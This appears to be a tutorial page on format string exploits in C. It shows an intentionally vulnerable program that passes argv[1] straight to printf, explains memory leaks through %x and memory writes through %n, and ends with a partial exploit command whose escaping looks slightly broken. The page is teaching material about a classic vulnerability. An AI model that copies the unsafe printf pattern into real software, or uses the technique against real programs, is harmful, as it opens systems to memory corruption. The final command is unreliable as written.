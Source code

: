 ## Simple Format Print exploit
```c
//format.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/*
 * We can manipulate the variable in memory in printf.
 */
int target;
void hacking(char *string) {
    printf(string);
    printf("\n");
    if (target) printf("target has been modified.\n");
}

int main(int argc, char *argv[]) {
    hacking(argv[1]);
    return 0;
}
```
* Try `argv[1] = "%x %x %x"`
* We can find it is a memory leak vulnerability.
* What values are the `printf` reading?
* Spec of `printf` on Linux Manual `man 3 printf`
```
Code such as printf(foo); often indicates a bug, since foo may contain a % 
character. If foo comes from untrusted user input, it may contain %n, causing 
the printf() call to write to memory and creating a security hole.
```
* What is `"%n"`?
```
It writes the amount of characters that were already printed into a variable.
```
For example,
```c
#include <stdio.h>
int main(void) {
    int num;
    printf("Hello %n World\n", &num);
    printf("num = %d\n", num);
    // Therefore, num should be equal to 6 because before %n there are 6 characters were already printed.
    return 0;
}
```
* Now, we need to find the address of `num` first in order to modify its value.
    * `mem(\x08\x49\x33\x22) = objdump -t format` 
    * 
    ```
    ./format "`python -c print('\x08\x49\x33\22' + '%x '\*127)`"
    ```
